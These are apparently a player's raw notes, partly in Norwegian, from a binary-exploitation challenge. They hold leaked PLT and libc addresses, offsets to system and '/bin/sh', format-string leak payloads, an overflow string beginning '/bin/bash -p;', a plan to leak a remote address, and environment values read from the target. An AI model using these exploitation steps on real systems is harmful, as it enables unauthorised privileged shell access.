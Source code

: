 prerun:
0x1040 <printf@plt>: 0x2fe225ff
0x1090 <puts@plt>: 0x2fba25ff

runtime:
0x000055a063098040  printf@plt
0x000055a063098090  puts@plt
0x7fd4112dfeb0 <printf: 0xd8ec8148
0x7fd4112e0240 <puts: 0x89485355
0x7fd4112d0b10 <system: 0x12b95741  (random offset?)
  121cf system
  a4750 /bin/sh system + 0x92581
  a9422 /bin/sh system + 0x97273

ghidra  printf@plt is at 0x101040
        puts@plt is at 0x101090

ghidra uptime 0x0010175b => base: 0x0175b
 (%p - (0x10a7 + 0x1040) + 0x0175b) should be get_uptime

stack at runtime @input:
0x55a0630990e7 - 0x10a7 after printf@plt (points to ghidra 0x1020e7 er_help)
0xffffffff ,  0 ,  0 , 0x1b , 0x7ffc8c79e6e0
0x55a063098af6 - 0xab6 after print@plt (points to ghidra 0x101af6 rip for kall til unknown_cmd)
after this comes the input
0x55a063098b7d - 0xb3d etter print@plt (0x101b7d ghidra - rip call get_commands) return ved: base + 1b0e

%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p %p AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSS siste resultat,z gir en verdi som er 0x2efa5 foran system
            og 0x8a8b7 mindre enn /bin/sh

%p%p%p%p%p %p siste resultat peker til stack-adressen?

/bin/bash -p;   AAAAAAAAABBBBBBBBBBBBBBBBCCCCCCCCCCCCCCCCDDDDDDDDDDDDDDDDEEEEEEEEEEEEEEEEFFFFFFFFFFFFFFFFGGGGGGGGGGGGGGGGHHHHHHHHHHHHH[çÈ9U
0x5634ae44f75b => 5bf744ae3456

%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p  %p

aaaaaaaaaaAAAAAAAAAAbbbbbbbbbbBBBBBBBBBBccccccccccCCCCCCCCCCddddddddddDDDDDDDDDDeeeeeeeeeeEEEEEEEEEEffffffffffFFFFFFFFFFggggggggggGGGGHH

first position in stack is 0x000055b55251b040
0xc0e7 - 0xb040 = 4263 etter pekeren til printf
0xc0e7 - 0xb090 = 4183 etter pekeren til puts

kan kjøre en enkelt %p på remote, trekke fra verdien 4183, så har jeg adressen til puts@plt for remote app

finner env:
PWD=/home/lootd
USERHASH=c2885919f5ff39fc813b091f199f0a37
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
bruker SOCAT=1.7.3.3 <- ikke kjent vulnerability>
HOME=/root
